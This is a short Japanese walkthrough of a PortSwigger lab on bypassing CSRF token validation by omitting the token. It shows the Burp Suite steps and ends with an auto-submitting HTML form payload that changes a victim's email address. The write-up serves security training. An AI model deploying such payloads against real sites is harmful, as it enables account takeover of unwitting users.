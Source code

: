 # トークンの検証がトークンの存在に依存する CSRF

次のハッキングラボを実施します  
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present  
このラボの電子メール変更機能は CSRF に対して脆弱です。

- 1. BurpSuite を起動して、Proxy タブからブラウザを起動します
- 2. ハッキングラボにアクセスします
- 3. 一般ユーザーでログインして、メールアドレスを変更します
- 4. リクエスト POST /my-account/change-email HTTP/2 を send to repeater します

* 5. csrf トークンを任意に変更して、送信すると失敗します
* 6. 一方,csrf トークンを全て削除すると、メール変更リクエストは成功します
* 7. エクスプロイトサーバに移動して、body に次のように入力します

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="test@test" />
</form>
<script>
  document.forms[0].submit();
</script>
```

- 8. Store ボタン押下後に send to victim ボタンを押下すると、閲覧者のメールアドレスを変更するページにアクセス誘導できます
